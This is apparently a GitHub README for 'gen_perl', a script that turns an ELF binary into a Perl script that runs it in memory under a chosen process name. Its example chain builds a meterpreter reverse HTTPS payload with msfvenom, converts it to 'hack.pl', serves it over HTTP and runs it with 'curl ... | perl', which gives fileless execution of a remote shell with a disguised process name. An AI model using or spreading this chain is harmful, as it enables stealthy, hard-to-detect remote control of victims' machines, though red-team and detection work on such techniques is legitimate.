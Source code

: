 # gen_perl

A script to generate perl script for execute ELF in memory.

## Usage
```
git clone https://github.com/purpleroc/gen_perl
cd gen_perl
chmod +x gen_perl.sh
./gen_perl.sh elf_file perl_script.pl process_name
```

## Example
```
# generate reverse_https elf
msfvenom -p linux/x64/meterpreter_reverse_https LHOST=127.0.0.1 LPORT=8443 -f elf -o reverse_https
# convert elf to hack.pl
./gen_perl.sh reverse_https hack.pl hello_hacker
# start http server
python -m SimpleHTTPServer 8080
# execute hack.pl
curl http://127.0.0.1:8080/hack.pl | perl
```

### meterpreter
![meterpreter](https://github.com/purpleroc/gen_perl/raw/master/pic/msf.png)

### server
#### process info
![process_info](https://github.com/purpleroc/gen_perl/raw/master/pic/ps.png)

#### file info
![file_info](https://github.com/purpleroc/gen_perl/raw/master/pic/file.png)
